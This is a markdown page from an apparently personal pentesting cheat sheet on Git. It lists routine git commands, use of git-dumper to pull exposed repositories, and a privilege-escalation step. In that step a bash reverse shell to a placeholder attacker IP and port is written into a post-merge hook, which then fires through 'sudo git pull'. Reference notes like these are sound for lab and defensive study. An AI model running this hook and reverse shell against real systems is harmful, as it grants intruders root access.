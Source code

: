 ```yaml
---
title: "Git"
date: 2025-7-25
tags: ["Git", "Git-Dumper", "Sudo", "Enumeration", "Web Exploitation", "Gitea", "Repo", "Clone"]
---
```


### General

```console
# Show status
git status
```

```console
# Reset the current branch to a previous commit
git reset --hard
```

```console
# Show information about files
git ls-files --stage
```

```console
# Show current branch
git branch
```

```console
# Show commits
git log <BRANCH_NAME> --oneline
```

```console
# Show diff, a and b are commit hash
# a is the older commit
git diff <A_COMMIT_HASH> <B_COMMIT_HASH>
```

```console
# Show commit
git show <COMMIT_HASH>
```

```console
# Clone private repo
git clone http://<USER>:<TOKEN>@<DOMAIN>/<OWNER>/<REPO>.git
```

```console
# Add file
git add <FILE>
```

```console
# Commit changes
git commit -am '<MESSAGE>'
```

```console
# Push changes
git push
```

---

### Git Tools

{{< tab set1 tab1 >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
git-dumper <TARGET> result/
```

<small>*Ref: [git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# List all bundles
find . -type f -exec file {} \;
```

```console
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

{{< /tabcontent >}}

---

### Privesc #1: Create a Malicious Post-Merge

```console
# Copy target project
cp -r /var/www/html/project .
```

```console
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1' > ./project/.git/hooks/post-merge
```

```console
# Run
sudo /usr/bin/git pull
```

<small>*Note: Make changes to the project to make the pull work*</small>
